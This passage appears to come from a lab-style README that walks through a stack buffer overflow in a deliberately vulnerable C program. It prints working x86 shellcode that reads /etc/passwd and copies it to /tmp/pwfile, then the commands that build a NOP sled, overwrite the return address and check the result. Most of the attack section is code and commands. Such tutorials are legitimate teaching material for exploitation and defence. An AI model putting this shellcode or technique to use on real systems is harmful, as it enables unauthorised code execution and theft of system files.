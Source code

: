 This will produce shellcode in the format:

<img width="500" alt="Screenshot" src="https://github.com/user-attachments/assets/9f51333a-d143-472a-baa8-e16134147516"><br>
```sh
print('\x31\xc0\xb0\x05\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x8d\x5c\x24\x01\xcd\x80\x89\xc3\xb0\x03\x89\xe7\x89\xf9\x66\x6a\xff\x5a\xcd\x80\x89\xc6\x6a\x05\x58\x31\xc9\x51\x68\x66\x69\x6c\x65\x68\x2f\x6f\x75\x74\x68\x2f\x74\x6d\x70\x89\xe3\xb1\x42\x66\x68\xa4\x01\x5a\xcd\x80\x89\xc3\x6a\x04\x58\x89\xf9\x89\xf2\xcd\x80\x31\xc0\x31\xdb\xb0\x01\xb3\x05\xcd\x80' + 'A' * 20 + '\x30\xd6\xff\xff')"
```


You now have the raw shellcode that can be injected into the C program.

## 4. Exploit the Vulnerable C Program

We will now execute the vulnerable C program with an environment variable containing the shellcode, to exploit the buffer overflow and inject the shellcode into the execution path.

Export the shellcode into an environment variable:

```sh
export SHELLCODE=$(python -c 'print("\x90"*100 + "\x..." + "\x90"*20)')
```
The `\x90` represents NOPs (No Operation), which create a NOP sled to increase the likelihood that the CPU will jump into our shellcode during the overflow.
```sh
./vulnerable $(python -c 'print("A"*20 + "\x12\x34\x56\x78")')
```
In this example, `"A"*20` represents padding, and `"\x12\x34\x56\x78"` would be replaced by the address pointing to the NOP sled.<br>
When the buffer overflow occurs, the program's return address will be overwritten with the address pointing to our shellcode. As a result, the injected shellcode will execute, copying `/etc/passwd` to `/tmp/pwfile`.

If successful, there will be no visible output on the terminal. You can verify the success of the exploit by checking the contents of /`tmp/pwfile`.
## 5. Verify the Attack:
After running the program, the `/etc/passwd` file should be copied to `/tmp/pwfile`. We can verify it using the following command:
```sh
cat /tmp/pwfile
```
After running the vulnerable program, check if the shellcode was executed successfully.
<img width="500" alt="Screenshot" src=https://github.com/user-attachments/assets/486507f2-fe1f-49b4-812b-248cb4d6c1e0><br>

The file `/tmp/pwfile` should now exist, and you can view its contents:
<img width="500" alt="Screenshot" src=https://github.com/user-attachments/assets/92493e56-f25a-4cae-8afe-e518cc5ebd47><br>

The contents of /`etc/passwd` will be displayed, confirming that the exploit worked and the file was copied successfully.
<img width="500" alt="Screenshot" src=https://github.com/user-attachments/assets/24200c0e-cd65-4a9c-92e8-64abc1db05ca><br>
